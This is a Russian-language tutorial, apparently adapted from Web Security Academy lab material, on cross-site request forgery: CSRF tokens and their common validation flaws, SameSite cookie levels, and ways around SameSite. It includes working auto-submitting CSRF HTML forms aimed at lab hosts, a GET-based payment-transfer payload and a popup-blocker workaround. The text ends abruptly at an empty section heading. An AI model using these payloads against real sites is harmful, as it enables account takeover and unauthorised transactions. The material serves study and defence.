

# Как работает CSRF?
Чтобы CSRF стала возможной, необходимо наличие трех ключевых условий:
- Соответствующее действие. В приложении есть действие, которое злоумышленник имеет основания вызвать. Это может быть привилегированное действие (например, изменение разрешений для других пользователей) или любое действие над данными конкретного пользователя (например, изменение собственного пароля).
- Обработка сеанса на основе куки. Выполнение действия подразумевает выдачу одного или нескольких HTTP-запросов, и приложение полагается исключительно на куки сеанса для идентификации пользователя, выполнившего эти запросы. Нет никаких других механизмов для отслеживания сеансов или проверки запросов пользователя.
- Отсутствие непредсказуемых параметров запроса. Запросы, выполняющие действие, не содержат параметров, значения которых злоумышленник не может определить или угадать. Например, заставляя пользователя сменить пароль, функция не уязвима, если злоумышленнику необходимо знать значение существующего пароля.

Примечание:
>Хотя CSRF обычно описывается в связи с обработкой сеанса на основе cookie, он также возникает в других контекстах, когда приложение автоматически добавляет некоторые учетные данные пользователя к запросам, например, при аутентификации HTTP Basic и аутентификации на основе сертификатов.

Например, приложение содержит функцию, позволяющую пользователю изменить адрес электронной почты в своей учетной записи:

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```
  
Можно создать страницу, содержащую следующий HTML:

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script> document.forms[0].submit(); </script>
    </body>
</html>
```

Если пользователь созданную страницу, произойдет следующее:
- Страница вызовет HTTP-запрос на уязвимый веб-сайт.
- Если пользователь вошел на уязвимый сайт, его браузер автоматически включит в запрос сессионный файл cookie (при условии, что не используются SameSite cookie).
- Уязвимый веб-сайт обработает запрос обычным образом, расценит его как сделанный пользователем-жертвой и изменит его адрес электронной почты.

# Общие меры защиты от CSRF
## CSRF токены
CSRF-токен - это уникальное, секретное и непредсказуемое значение, которое генерируется приложением на стороне сервера и передается клиенту. При отправке запроса на выполнение сенситив действия, такого как отправка формы, клиент должен указать правильный маркер CSRF. В противном случае сервер откажется выполнять запрошенное действие.

Распространенным способом передачи CSRF-токенов клиенту является включение их в качестве скрытого параметра в HTML-форму, например:

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
	<label>Email</label>
	<input required type="email" name="email" value="example@normal-website.com">
	<input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
	<button class='button' type='submit'> Update email </button>
</form>
```

Отправка этой формы приводит к следующему запросу:

```http
POST /my-account/change-email HTTP/1.1
Host: normal-website.com
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com
```

### Общие недостатки при валидации CSRF токенов
#### Валидация CSRF-токена зависит от метода запроса
Некоторые приложения правильно проверяют маркер, когда запрос использует метод POST, но пропускают проверку, когда используется метод GET. В этой ситуации можно переключиться на метод GET, чтобы обойти валидацию:

```http
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

Пример подмененной страницы:

```html
<html>
    <body>
        <form action="https://0a4700eb04672d42c0ba5e1f000f0048.web-security-academy.net/my-account/change-email" method="GET">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script> document.forms[0].submit(); </script>
    </body>
</html>
```

#### Проверка CSRF токена зависит от наличия токена
Некоторые приложения правильно проверяют маркер, если он присутствует, но пропускают проверку, если маркер пропущен. В этой ситуации можно удалить весь параметр, содержащий токен (а не только его значение), чтобы обойти проверку:

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net
```

#### CSRF-токен не привязан к сессии пользователя
Некоторые приложения не проверяют принадлежность токена к той же сессии, что и пользователь, делающий запрос. Вместо этого приложение ведет глобальный пул выданных им токенов и принимает любой токен, который появляется в этом пуле.

В такой ситуации можно войти в приложение, используя свою учетную запись, получить действительный токен, а затем передать его пользователю-мамонтенку:
```html
<html>
    <body>
        <form action="https://0a68003f046d5cf3c0bc181f008500aa.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="<tuta_our_csrf_token>">
        </form>
        <script> document.forms[0].submit(); </script>
    </body>
</html>
```

#### CSRF-токен привязан к non-session cookie
В вариации на тему предыдущей уязвимости, некоторые приложения привязывают CSRF-токен к cookie, но не к той же самой cookie, которая используется для отслеживания сессий. Это может легко произойти, если в приложении используются два разных фреймворка, один для обработки сеансов, а другой для защиты от CSRF, которые не интегрированы друг с другом:

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68 Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

В такой ситуации сложнее реализовать CSRF, но все равно возможно. Если веб-сайт содержит поведение, позволяющее установить cookie в браузере жертвы, то атака возможна. Можем войти в приложение, используя свою учетную запись, получить действительный токен и связанный с ним cookie, использовать поведение установки cookie, чтобы поместить свой cookie в браузер жертвы, и передать свой токен жертве в CSRF-атаке (тут основная сложность в передаче "своего" куки):

```html
<html>
    <body>
        <form action="https://0a1c003803ae7203c07568d400e800c1.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="kekekekekekekkeke@evil-user.net" />
            <input type="hidden" name="csrf" value="ue6EN7rNEs6O91v7jzC2y7eS2ymf7n0C">
        </form>
        
    </body>
</html>
```

Примечание:

>Поведение при установке cookie даже не обязательно должно существовать в том же веб-приложении, что и уязвимость CSRF. Любое другое приложение в том же общем DNS-домене потенциально может быть использовано для установки cookie в приложении, которое является объектом атаки, если управляемый cookie имеет подходящую область действия. Например, функция установки cookie на `staging.demo.normal-website.com` может быть использована для размещения cookie, который отправляется на `secure.normal-website.com`.

#### CSRF-токен просто дублируется в cookie
Еще одна вариация предыдущей уязвимости: некоторые приложения не хранят на стороне сервера записи о выданных токенах, а дублируют каждый токен в cookie и параметре запроса. Когда последующий запрос проверяется, приложение просто проверяет, что токен, представленный в параметре запроса, соответствует значению, представленному в cookie. Такой способ защиты от CSRF иногда называют "двойной отправкой", и его поддерживают, поскольку он прост в реализации и позволяет избежать необходимости в создании записей на стороне сервера:

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

В этой ситуации снова можно провести CSRF-атаку, если на сайте есть функция установки cookie. Здесь не нужно получать собственный действительный токен. Просто создаем токен (возможно, в требуемом формате, если это проверяется), используем поведение установки cookie, чтобы поместить свой cookie в браузер жертвы, и передаем свой токен жертве:

```html
<html>
    <body>
        <form action="https://0af900360319df31c03effc6008e0010.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="kekekekekekekkeke@evil-user.net" />
            <input type="hidden" name="csrf" value="b1b2RP8d9hpPUQHTlJYo1uiMrf4O7l14">
        </form>
        
    </body>
</html>
```

## SameSite cookie
SameSite - это механизм безопасности браузера, который определяет, когда файлы cookie веб-сайта включаются в запросы, исходящие от других веб-сайтов. Ограничения на куки SameSite обеспечивают частичную защиту от различных межсайтовых атак, включая CSRF, межсайтовые утечки и некоторые CORS-эксплойты

### Сайт в контексте SameSite cookie 
В контексте ограничений файлов cookie SameSite сайт определяется как домен верхнего уровня (TLD), обычно что-то вроде .com или .net, плюс один дополнительный уровень доменного имени. Это часто называют TLD+1.

При определении того, является ли запрос односайтовым или нет, также учитывается схема URL. Это означает, что ссылка с `http://app.example.com` на `https://app.example.com` рассматривается большинством браузеров как межсайтовая.

Примечание:

>Вы можете встретить термин "эффективный домен верхнего уровня" (eTLD). Это просто способ учета зарезервированных многочастных суффиксов, которые на практике рассматриваются как домены верхнего уровня, например `.co.uk`.

### Разница между сайтом и источником
Разница между сайтом и источником заключается в их масштабе; сайт включает в себя несколько доменных имен, в то время как источник - только одно. Хотя они тесно связаны, важно не использовать эти термины как взаимозаменяемые, поскольку их смешение может иметь серьезные последствия для безопасности.

Считается, что два URL-адреса имеют одинаковое происхождение, если они используют одну и ту же схему, доменное имя и порт. Хотя следует учитывать, что порт часто определяется по схеме.

Термин "сайт" гораздо менее специфичен, поскольку учитывает только схему и последнюю часть доменного имени. Это означает, что запрос с перекрестным происхождением может быть односайтовым, но не наоборот



Это важное различие, поскольку оно означает, что любая уязвимость, позволяющая произвольно выполнять JavaScript, может быть использована для обхода защиты на основе сайта на других доменах, принадлежащих тому же сайту

### Как работает SameSite?
До появления механизма SameSite браузеры отправляли файлы cookie в каждом запросе на домен, который их выдал, даже если запрос был вызван несвязанным сторонним веб-сайтом. SameSite работает, позволяя браузерам и владельцам сайтов ограничить, какие межсайтовые запросы, если таковые имеются, должны включать определенные файлы cookie. Это может помочь снизить подверженность пользователей атакам CSRF, которые побуждают браузер жертвы выдать запрос, вызывающий вредоносное действие на уязвимом сайте. Поскольку для таких запросов обычно требуется файл cookie, связанный с аутентифицированной сессией жертвы, атака будет неудачной, если браузер не включит его.

В настоящее время все основные браузеры поддерживают следующие уровни ограничений SameSite:

- `Strict`
- `Lax`
- `None`

Разработчики могут вручную настроить уровень ограничения для каждого установленного ими файла cookie, что дает им больше контроля над тем, когда эти файлы cookie используются. Для этого достаточно включить атрибут `SameSite` в заголовок ответа `Set-Cookie` вместе с предпочтительным значением:

```
Set-Cookie: session=0F8tgdOhi9ynR1M9wa3ODa; SameSite=Strict
```

Хотя это обеспечивает некоторую защиту от CSRF-атак, ни одно из этих ограничений не дает гарантированной защиты, как мы продемонстрируем на примере заведомо уязвимых интерактивных лабораторий далее в этом разделе.

Примечание:

>Если сайт, выдающий cookie-файл, явно не задал атрибут `SameSite`, Chrome автоматически применяет ограничения `Lax` по умолчанию. Это означает, что cookie отправляется только в межсайтовых запросах, отвечающих определенным критериям, даже если разработчики не настраивали такое поведение. Поскольку это предложенный новый стандарт, мы ожидаем, что другие основные браузеры в будущем примут это поведение.

#### Strict
Если cookie установлен с атрибутом `SameSite=Strict`, браузеры не будут отправлять его в межсайтовых запросах. Проще говоря, это означает, что если целевой сайт для запроса не совпадает с сайтом, который в данный момент отображается в адресной строке браузера, то cookie не будет включен.

Это рекомендуется при установке файлов cookie, которые позволяют владельцу изменять данные или выполнять другие конфиденциальные действия, например, доступ к определенным страницам, доступным только для аутентифицированных пользователей.

Хотя это наиболее безопасный вариант, он может негативно повлиять на пользовательский опыт в случаях, когда желательна межсайтовая функциональность.

#### Lax
Ограничения SameSite `Lax`  означают, что браузеры будут отправлять cookie в межсайтовых запросах, но только если выполняются оба следующих условия:

- В запросе используется метод `GET`
- Запрос является результатом верхнеуровневой навигации пользователя, например, нажатия на ссылку

Это означает, что cookie не включается, например, в межсайтовые `POST`-запросы. Поскольку `POST`-запросы обычно используются для выполнения действий, изменяющих данные или состояние (по крайней мере, согласно лучшей практике), они с гораздо большей вероятностью могут стать целью CSRF-атак.

Аналогичным образом, файл cookie не включается в фоновые запросы, например, инициированные скриптами, iframe или ссылками на изображения и другие ресурсы.

#### None
Если cookie установлен с атрибутом `SameSite=None`, то это фактически полностью отключает ограничения SameSite, независимо от браузера. В результате браузеры будут отправлять этот файл cookie во всех запросах на сайт, который его создал, даже в тех, которые были вызваны совершенно несвязанными сторонними сайтами.

За исключением Chrome, это поведение по умолчанию, используемое основными браузерами, если при установке cookie не указан атрибут `SameSite`.

Существуют вполне оправданные причины для отключения SameSite, например, когда файл cookie предназначен для использования в стороннем контексте и не предоставляет предъявителю доступ к каким-либо конфиденциальным данным или функциональности. Типичным примером являются файлы cookie для отслеживания.

Если вы встретили файл cookie, установленный с `SameSite=None` или без явных ограничений, стоит выяснить, имеет ли он какую-либо пользу. Когда поведение "Lax-by-default" было впервые применено в Chrome, это привело к тому, что многие существующие веб-функции были нарушены. В качестве быстрого обходного пути некоторые веб-сайты решили просто отключить ограничения SameSite для всех файлов cookie, включая потенциально важные.

При установке cookie с `SameSite=None` веб-сайт также должен включить атрибут `Secure`, который гарантирует, что cookie будет отправляться только в зашифрованных сообщениях по HTTPS. В противном случае браузеры отвергнут cookie, и он не будет установлен.

```
Set-Cookie: trackingId=0F8tgdOhi9ynR1M9wa3ODa; SameSite=None; Secure
```

### Обход SameSite Lax с помощью `GET`-запросов
На практике серверы не всегда тщательно следят за тем, получают ли они `GET`- или `POST`-запрос к данной конечной точке, даже те, которые ожидают отправки формы. Если они также используют ограничения `Lax` для своих сессионных куки, явно или по умолчанию в браузере, вы все равно сможете провести CSRF-атаку, вызвав `GET`-запрос из браузера жертвы.

Пока запрос включает навигацию верхнего уровня, браузер будет включать сессионный cookie жертвы. Ниже приведен один из самых простых подходов к проведению такой атаки:

```html
<script>
	document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

Даже если обычный `GET`-запрос запрещен, некоторые фреймворки предоставляют возможность переопределить метод, указанный в строке запроса. Например, Symfony поддерживает параметр `_method` в формах, который имеет приоритет над обычным методом для целей маршрутизации:

```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
	<input type="hidden" name="_method" value="GET">
	<input type="hidden" name="recipient" value="hacker">
	<input type="hidden" name="amount" value="1000000">
</form>
```

Другие фреймворки поддерживают множество подобных параметров.

### Обход ограничений SameSite с помощью гаджетов на сайте
Если cookie установлен с атрибутом `SameSite=Strict`, браузеры не будут включать его в межсайтовые запросы. Вы сможете обойти это ограничение, если найдете гаджет, который приводит к вторичному запросу в пределах одного сайта.

Одним из возможных вариантов является перенаправление на стороне клиента, которое динамически создает цель перенаправления, используя контролируемые злоумышленником входные данные, такие как параметры URL.

С точки зрения браузеров, эти клиентские перенаправления на самом деле не являются перенаправлениями вообще; результирующий запрос рассматривается как обычный, отдельный запрос. Самое главное, что это запрос одного сайта и, как таковой, он будет включать все файлы cookie, связанные с сайтом, независимо от каких-либо установленных ограничений.

Если вы сможете манипулировать этим гаджетом, чтобы вызвать вредоносный вторичный запрос, это может позволить вам полностью обойти любые ограничения на куки SameSite.

Обратите внимание, что аналогичная атака невозможна при перенаправлении на стороне сервера. В этом случае браузеры признают, что запрос на следование перенаправлению изначально является результатом межсайтового запроса, поэтому они все равно применяют соответствующие ограничения cookie.

### Обход ограничений SameSite с помощью уязвимых дочерних доменов
Независимо от того, тестируете ли вы чужой сайт или пытаетесь защитить свой собственный, важно помнить, что запрос может быть односайтовым, даже если он отправлен через другой сайт.

Убедитесь, что вы тщательно проверили всю доступную поверхность атаки, включая все дочерние домены. В частности, уязвимости, позволяющие вызвать произвольный вторичный запрос, такие как XSS, могут полностью скомпрометировать защиту сайта, открывая все домены сайта для межсайтовых атак.

В дополнение к классическому CSRF, не забывайте, что если целевой сайт поддерживает WebSockets, эта функциональность может быть уязвима для межсайтового WebSocket hijacking (CSWSH), который по сути является просто CSRF атакой, направленной на WebSocket handshake. Для получения более подробной информации см. нашу тему об уязвимостях WebSocket.

### Обход ограничений SameSite Lax с помощью недавно выпущенных файлов cookie
SameSite cookie с ограничениями `Lax` обычно не отправляются в межсайтовых `POST`-запросах, но есть и исключения.

Как упоминалось ранее, если веб-сайт не включает атрибут `SameSite` при установке cookie, Chrome автоматически применяет ограничения `Lax` по умолчанию. Однако, чтобы не нарушать механизмы единой регистрации (SSO), он не применяет эти ограничения в течение первых 120 секунд для `POST`-запросов верхнего уровня. В результате в течение двух минут пользователи могут быть подвержены межсайтовым атакам.

Примечание:

>Это двухминутное окно не распространяется на файлы cookie, которые были явно установлены с атрибутом `SameSite=Lax`

Несколько непрактично пытаться планировать атаку так, чтобы уложиться в это короткое окно. С другой стороны, если вы сможете найти на сайте гаджет, который позволит вам заставить жертву получить новый сеансовый cookie, вы сможете упреждающе обновить их cookie перед тем, как приступить к основной атаке. Например, выполнение входа в систему на основе OAuth может каждый раз приводить к новой сессии, поскольку служба OAuth не всегда знает, вошел ли пользователь на целевой сайт.

Чтобы вызвать обновление файлов cookie без необходимости повторного входа жертвы вручную, необходимо использовать навигацию верхнего уровня, которая обеспечивает включение файлов cookie, связанных с текущей сессией OAuth. Это создает дополнительную проблему, поскольку в этом случае необходимо перенаправить пользователя обратно на ваш сайт, чтобы можно было провести CSRF-атаку.

В качестве альтернативы можно запустить обновление cookie с новой вкладки, чтобы браузер не покинул страницу до того, как вы сможете осуществить финальную атаку. Небольшая проблема с этим подходом заключается в том, что браузеры блокируют всплывающие вкладки, если они не открываются вручную. Например, следующее всплывающее окно будет заблокировано браузером по умолчанию:

```js
window.open('https://vulnerable-website.com/login/sso');
```

Чтобы обойти это, вы можете обернуть утверждение в обработчик события `onclick` следующим образом:

```js
window.onclick = () => {
	window.open('https://vulnerable-website.com/login/sso');
}
```

Таким образом, метод `window.open()` будет вызываться только тогда, когда пользователь щелкнет где-нибудь на странице.

## Referer-based валидация

